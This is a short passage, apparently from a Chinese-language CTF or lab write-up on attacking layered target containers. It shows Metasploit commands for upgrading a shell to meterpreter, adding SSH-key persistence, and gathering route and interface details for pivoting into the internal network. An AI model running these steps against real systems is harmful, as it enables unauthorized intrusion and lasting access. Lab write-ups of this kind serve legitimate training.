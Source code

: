 ```
    ```shell
    ls /tmp
    ```
    获取后提交到场景中就可以拿分了
    ![](./images/拿到第一个flag.png)
#### 基于第一层靶标发现内网容器与靶标
1. 入口靶标的打击在实验中拿到的shell是不一定的，所以我们每次在metasploit中对需不需要进行升级shell有一定的取舍
```ruby
# 如果拿到的是普通shell
sessions -u 1 #升级拿到的shell
# 升级后的shell是meterpreter,在这个实验中可能会退出，所以可以进行持久化处理
metepreter> run post/linux/manage/sshkey_persistence
```
2. 对meterpreter容器进行网络扫描和信息收集
```ruby
meterpreter> route
meterpreter> ipconfig
```
![](./images/第一个靶机的route表.png)
![](./images/第一层ipconfig看到两张网卡.png)
